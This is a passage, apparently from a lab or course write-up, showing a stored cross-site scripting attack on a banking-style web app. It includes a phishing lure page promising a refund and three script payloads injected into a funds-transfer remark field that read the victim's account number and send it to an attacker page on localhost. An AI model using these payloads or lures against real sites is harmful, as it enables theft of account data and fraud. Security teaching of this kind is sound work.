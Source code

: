   error while during the last transaction, please click 

  button bellow to claim your refund plus 1 cent gift.

  <button onclick="getURL()"\> Proceed </button>

  

  </body>

  

  </html>

 \`\`\`

  

\- Three payloads were used due to the character limitations of the remark field.

\- Navigate to Transfer Funds page and send the below three payloads in remark field to victim account from the attacker account.

  

 - Payload 1

 \`\`\`javascript

  <script\>var x \= document.getElementsByName("account")\[0\].value</script\> 

 \`\`\`

 - Payload 2 

 \`\`\`javascript

  <script\>function y(){window.open("http://localhost:81/error.html?x="+x, "\_blank");}</script\> 

 \`\`\`

 - Payload 3

 \`\`\`javascript

  

  <a onclick\="y()"\>Error please click here!!</a\>

 \`\`\`

  

\- Once the payloads are transferred victim can see an \` Error please click here!!!\` link in the remark field on the Account details page.

  
  
  





  
  

\- The page will be redirected to the \`error.html\` which is up and running.

  

!\[Attacker\_Website\](images/task2/1.4.1.JPG)
